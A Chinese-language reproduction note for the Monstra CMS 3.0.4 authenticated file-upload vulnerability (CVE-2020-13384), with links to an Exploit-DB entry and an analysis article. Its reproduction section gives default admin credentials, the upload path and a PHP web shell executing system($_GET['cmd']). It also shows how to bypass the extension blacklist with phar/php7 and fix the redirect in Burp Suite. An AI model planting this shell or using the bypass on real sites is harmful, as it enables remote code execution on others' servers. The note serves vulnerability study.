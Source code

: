 ## 1. 漏洞介绍

Monstra CMS是乌克兰Sergey Romanenko软件开发者的一套基于PHP的轻量级内容管理系统（CMS）。 

Monstra CMS 3.0.4版本中的index.php脚本存在安全漏洞，该漏洞源于程序没有正确验证文件扩展名。远程攻击者可借助特制HTTP请求利用该漏洞上载和执行任意PHP代码。

[Monstra CMS 3.0.4 - Authenticated Arbitrary File Upload - PHP webapps Exploit](https://www.exploit-db.com/exploits/48479)

**推荐学习：**[Monstra CMS RCE漏洞分析（CVE-2020-13384） - 先知社区](https://xz.aliyun.com/t/7850)

## 2. 漏洞复现

登录：admin/123456

上传地址：……/admin/index.php?id=filesmanager

```PHP
<?php 
echo "webshell works!";
system($_GET['cmd']);
?>
```

有漏洞分析知后端采用的是黑名单过滤，可用phar/php7绕过，示例

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312291821859.png)

注，直接上传时会被重定向至本地局域网地址，可以用burp suite抓包改回去！